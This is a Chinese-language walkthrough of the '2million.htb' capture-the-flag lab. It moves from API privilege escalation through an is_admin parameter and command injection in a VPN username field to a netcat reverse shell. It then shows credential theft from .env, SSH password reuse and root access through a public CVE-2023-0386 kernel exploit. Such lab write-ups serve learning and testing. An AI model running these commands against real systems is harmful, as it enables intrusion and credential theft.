linux_JavaScript 

前后端通信（Ajax + API）:
技术                           作用	                    举例
Ajax（用 jQuery 或 原生 JS 写）	向服务器请求数据而不刷新页面	点按钮生成邀请码时从 /api/v1/... 获取数据
API接口	                      后台返回 JSON 数据	        { "invite_code": "abc123" }

jQuery 是个老牌工具库，很多老网站和项目用它，现在新项目用得较少（转向 Vue/React），但它对理解 Ajax 很重要

### ` echo 'IP 2million.htb' | sudo tee -a /etc/hosts`

### 1.目标网页的Fn+12原代码 发现隐藏代码为典型的 JavaScript 混淆格式

在Debugger > 2million.htb > js > inviteapi.min.js

https://lelinhtinh.github.io/de4js/ 

可读JavaScript代码

[查看 邀请码invite.js的解析](./invite.js)
### 2.出现了 ROT13 值得学习

加密类型被暗示为ROT13，基本上是凯撒密码。一个提示也是可见的，提到我们需要识别加密类型并对其进行解密


通过ROT13解码 ：为了生成邀请代码，向/api/v1/invite/generate发出POST请求

生成的邀请码还有解base64


### 3.登陆账户之后，开启本地拦截burpsuite,下载Access的VPN，只是为了获得页面已经登陆的cookie
拿着cookie开始 查询API接口信息
`curl -v 2million.htb/api --cookie "PHPSESSION=..." | jq`
获得版本
`curl -v 2million.htb/api/v1 --cookie "PHPSESSION=..." | jq`
获得很多API接口URL信息
```
GET  /api/v1/admin/auth             //管理用户，   显示200，messags:galse
POST /api/v1/admin/vpn/generate     //生成VPN配置，显示401 Unauthorised错误，可能因为不是管理员
PUT  /api/v1/admin/settings/update  //更新设置     享受200，status:danger(危险) messags:Invalid content type(无效内容类型)
```
它们的具体命令：
```
curl -sv 2million.htb/api/v1/admin/auth  --cookie "PHPSESSION=..." | jq
curl -sv -X POST http://2million.htb/api/v1/admin/vpn/generate  --cookie "PHPSESSION=..." | jq
curl -v -X PUT http://2million.htb/api/v1/admin/settings/update  --cookie "PHPSESSION=..." | jq
```

谁能想到 无效内容类型 竟然是一个开端，PUT为更新或覆盖，POST为新增
这次没有得到未经授权的错误，而是API回复了无效的内容类型
API以JSON格式回复，将Content-Type头设置为JSON并再试一次

### 4.发现id_admin 隐式逻辑漏洞，接口接受并信任了用户提供的字段 is_admin
```
curl -X PUT http://2million.htb/api/v1/admin/settings/update  --cookie "PHPSESSION=..." --header "Content-Type: application/json" | jq
//message:"Missing parameter: email"
curl -X PUT http://2million.htb/api/v1/admin/settings/update  --cookie "PHPSESSION=..." --header "Content-Type: application/json" --data '{"email": "..."}' | jq
//messags:"Missing parameter: is_admin"
curl -X PUT http://2million.htb/api/v1/admin/settings/update  --cookie "PHPSESSION=..." --header "Content-Type: application/json" --data '{"email": "...", "is_admin": true}' | jq
//messags:"Varable is_admin needs to be either 0 or 1."
curl -X PUT http://2million.htb/api/v1/admin/settings/update  --cookie "PHPSESSION=..." --header "Content-Type: application/json" --data '{"email": "...", "is_admin": 1}' | jq
//"id": 13,
//"username":...,
//"id_admin": 1
```
访问第一条管理用户
```
curl -sv 2million.htb/api/v1/admin/auth  --cookie "PHPSESSION=..." | jq
//"message": true 大功告成
```

这就是一种典型的 水平越权 + 参数污染
### 5.利用足够的权限，查看生成VPN配置的命令

少一个名为username的参数，可以推断这是将为其生成VPN的用户的用户名，尝试输入一个随机用户名

看到为用户test和生成了一个VPN配置文件是打印的
如果这个VPN是通过exec或系统PHP函数生成的，并且有过滤不充分（这是可能的，因为这是一个仅用于管理的功能）可能在用户名字段中注入恶意代码并在远程系统上获得命令执行。让我们通过注入命令；id；在用户名之后
漏洞开始利用;id;


用Base64编码有效负载，并将其添加到下面的命令中，同时开启监听`nc -lvp 1234`


### 6.快速通过user.txt 
```
www-data@2million:~/html$ cat .env
DB_PASSWORD=SuperDuperPass123
www-data@2million:~/html$ cat /etc/passwd
admin:x：1000:1000::/home/admin:/bin/bash
```
有了admin的/bin/bash和密码使用ssh连接
```
$ ssh admin@2million.htb

admin@2million:~$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin)
admin@2million:~$ ls
user.txt
```
### 7.邮件暴露存在的漏洞 邮件在/var/mial/admin

对OverlayFS的攻击/ FUSE被提及

使用关键字overlays fuse exploit执行一个快速谷歌搜索

研究结果表明本文介绍了Linux内核中存在的一个漏洞，编号为CVE-2023-0386
```
admin@2million:~$ uname -a       //Linunx 2million 5.15.70 x86_64 //内核版本：5.15.70-051570-generic 架构：x86_64
admin@2million:~$ lsb_release -a //Ubuntu 22.04.2 jammy //操作系统：Ubuntu 22.04.2 LTS
```
https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/

```
先下载在本机里面，使用scp上传给ssh
git clone https://github.com/xkaneiki/CVE-2023-0386
zip -r cve.zip CVE-2023-0386

scp cve.zip admin@2million.htb:/tmp //密码为SuperDuperPass123
```
```
admin@2million:/tmp$ ls
admin@2million:/tmp$ unzip cve.zip
admin@2million:/tmp$ cd CVE-202300386
admin@2million:/tmp/CVE-202300386$ make all //注意：编译会抛出一些警告，但可以安全地忽略这些警告
```
成功会返回最后两条如图


这是一个正常的调试输出，说明 gc（通常是伪造的cap文件）大小正确地被读取。
接下来你执行了 ./exp，但你没有贴出后续结果。如果 ./exp 是该 PoC 的核心利用阶段，它应该会尝试通过 fuse 挂载的目录和 overlayfs 的漏洞来提权，通常成功会得到一个 root shell 或者新建一个 root 权限的 shell 文件（比如 /tmp/su_backdoor 或者 ./sh 等）

神奇的是 admin@2million 变成 root@2million


### 8.双层的复杂解码，可难了 
`admin@2million:/root# cat thank_you.json`
使用的工具https://gchq.github.io/CyberChef/
经历了3天，UTF8的添加只在XOR的Key的旁边，其余地方均保持Raw Bytes。
[点击查看 转码困住了我](Multi-layerDecoding.md)
好想吐槽这个靶机重量

